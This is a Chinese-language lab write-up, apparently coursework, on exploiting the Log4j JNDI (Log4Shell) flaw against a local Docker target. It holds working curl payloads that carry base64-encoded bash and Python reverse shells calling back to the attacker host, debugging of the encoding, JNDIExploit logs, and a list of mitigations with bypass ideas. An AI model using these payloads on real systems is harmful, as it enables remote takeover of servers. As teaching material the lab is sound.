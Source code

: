 # 实验准备

首先进行环境部署
![](./pic/部署完成.png)

验证能够成功打开网页
![](./pic/进入网页.png)

按照视频将docker中的demo.jar文件复制到本机上
![](./pic/demo.jar.png)

## 靶机ip

__192.168.8.129__

## 攻击者ip 

__192.168.8.132__

# 进行shell反弹测试

## 按照教程进行攻击者与靶机准备。

在进行shell反弹时遇到问题：网站并不接受POST请求；可以接受get请求，但是无法验证shell反弹内容
![](./pic/shell反弹失败.png)
课件中所给的命令使用-d强制指定POST请求，
```bash
curl http://192.168.8.129:33863/hello -d 'payload=${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}'
```
但是在本地的多次测试中，无法使用POST请求，在改用GET请求时，可以正常返回"ok"，但是没有反弹shell反应。
```bash
curl "http://192.168.8.129:33863/hello?payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/$(echo -n 'bash -i >& /dev/tcp/192.168.8.132/443 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')}"
```
~~__可能是网络问题，后续会再次进行测试。__~~

改用强制使用GET请求，能够监听到LDAP请求，说明漏洞触发成功，但是无法反弹shell
![](./pic/强制GET收获监听初步进展.png)

换为尝试python3的反弹shell
```bash
# 生成 Python3 反弹 Shell 的 Base64 编码
payload='python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.8.132\",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"'

# 编码并构造 Payload
encoded_payload=$(echo -n "$payload" | base64 -w 0 | sed 's/+/%252B/g; s/=/%253D/g')

# 发送请求
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_payload}}"
ok     
```

在JNDI中得到如下输出
```bash
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Received LDAP Query: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
[+] Paylaod: command
[!] Exception: Incorrect params: TomcatBypass/Command/Base64/cHl0aG9uMyAtYyAiaW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoXCIxOTIuMTY4LjguMTMyXCIsNzc3NykpO29zLmR1cDIocy5maWxlbm8oKSwwKTtvcy5kdXAyKHMuZmlsZW5vKCksMSk7b3MuZHVwMihzLmZpbGVubygpLDIpO3N1YnByb2Nlc3MuY2FsbChbXCIvYmluL2Jhc2hcIixcIi1pXCJdKSI%3D
```
同时仍然无法完成反弹shell。根据以上日志可知，问题出在参数解析错误（Incorrect params），这表明 JNDIExploit 无法正确处理发送的 Base64 编码后的 Python 反弹 Shell 命令。

在反复尝试多次之后，发现可能的原因是JNDIExploit 可能对 URL 编码后的 %2B（+）和 %3D（=）敏感，导致无法正确解析 Base64 编码后的命令。
尝试调整，移除填充符 = 并简化编码：
```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'

# Base64 编码后移除填充符 `=`，并替换特殊符号
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=' | sed 's/+/%2B/g')

# 发送请求（注意不再手动编码 `=`）
curl -G "http://192.168.8.129:48217/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
![](./pic/修改curl请求成功反弹shell.png)

## 在以上两步中经历的curl修改

### 1. 尝试移除“=”填充符

```bash
payload='python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.8.132\",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/bash\",\"-i\"])"'
encoded_payload=$(echo -n "$payload" | base64 -w 0 | tr -d '=' | sed 's/+/%252B/g; s/\//%252F/g')
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_payload}}"
```
JNDIExploit 反复报错 Incorrect params。
__问题分析__
Base64 编码嵌套问题：Payload 是 bash -c {echo,...}|{base64,-d}|{bash,-i} 的 Base64 编码，但 JNDIExploit 似乎无法处理这种嵌套结构。日志显示工具接收到了 LDAP 查询，但在解析 TomcatBypass/Command/Base64/... 时失败。
特殊字符干扰：Base64 字符串中的 =（填充符）和 |、{、} 等符号可能被错误解析。

### 2.简化命令格式，避免使用 bash -c {echo,...}|... 这种复杂结构，改用直接命令

```bash
cmd='bash -i >& /dev/tcp/192.168.8.132/7777 0>&1'
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | sed 's/+/%252B/g; s/=/%253D/g')
curl -G "http://192.168.8.129:58468/hello" --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
JNDIExploit 接收到了正确的 Base64 编码命令（YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguMTMyLzc3NzcgMD4mMQ== 解码后为 bash -i >& /dev/tcp/192.168.8.132/7777 0>&1），但仍然报错 Incorrect params。
__问题分析__
JNDIExploit 工具本身对参数的处理上可能有一定问题。

### 3.调整 Base64 编码方式，移除“=”填充符并简化特殊符号处理

```bash
cmd='bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjguMTMyLzc3NzcgMD4mMQ==}|{base64,-d}|{bash,-i}'
encoded_cmd=$(echo -n "$cmd" | base64 -w 0 | tr -d '=')
curl -G "http://192.168.8.129:58468/hello" \ --data-urlencode "payload=\${jndi:ldap://192.168.8.132:1389/TomcatBypass/Command/Base64/${encoded_cmd}}"
```
报错及问题与第一次的问题类似，不多赘述。

### 4.调整 Base64 编码格式。JNDIExploit 可能对 URL 编码后的 %2B（+）和 %3D（=）敏感，尝试移除填充符“=”并简化编码。得到完成的代码。

# ~~作业途中偶遇哈吉网站，拒绝POST请求疯狂哈气，拼尽全力，无法战胜~~
我们胜利了...暂时的

# 漏洞缓解与绕过测试

## 缓解的方法在初步来看有以下几种：

__1.修改环境变量，禁用JNDI查找__

__2.直接移除JNDI相关类__

__3.网络层控制（出站规则：阻止应用服务器发起任意LDAP/RMI请求；入站规则：限制外部对JNDI端口的访问）__

__4.使用WAF或API网关拦截恶意请求__

__5.降级到历史版本__(此方法有效性需要额外验证)

__6.日志监控__

## 以上方法对应的绕过方法

__1.可能可以利用上下文递归解析__

__2.利用其他Lookup类__

__3.使用非标准端口,DNS外带数据,HTTP协议中转__

__4.Unicode/Hex编码,大小写变形，空白符插入__

__5.在网络上搜索得知2.12.2及以下版本仍可通过线程上下文Map（ThreadContext Map）触发RCE__

__6.反射调用：通过Java反射动态触发JNDI__

# 漏洞修复

准备尝试使用更新到最新版本的办法